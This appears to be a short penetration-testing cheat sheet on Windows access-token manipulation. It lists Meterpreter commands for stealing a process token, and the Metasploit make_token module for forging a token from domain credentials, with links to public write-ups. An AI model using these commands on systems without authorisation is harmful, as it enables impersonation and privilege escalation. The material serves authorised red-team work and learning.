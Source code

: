 # Metasploit

## 01 - Steal Token

```
meterpreter > steal_token <pid>

meterpreter > getuid

meterpreter > getpid

meterpreter > drop_token
```

## 02 - Make Token

```
meterpreter > run post/windows/manage/make_token domain=<domain> username=<username> password=<password>

meterpreter > getuid

meterpreter > getprivs

meterpreter > rev2self
```

---
## References

- [Rapid7: Metasploit Framework Make Token Manage Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/make_token.md)

- [Pentestlab Blog: Token Stealing and Incognito](https://pentestlab.blog/2012/08/07/token-stealing-and-incognito/)

- [Demystifying Cobalt Strike’s “make_token” Command](https://research.nccgroup.com/2023/11/10/demystifying-cobalt-strikes-make_token-command/)

- [DMCXBlue Gitbook: Privilege Escalation Access Token Manipulation](https://dmcxblue.gitbook.io/red-team-notes/privesc/access-token-manipulation)

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)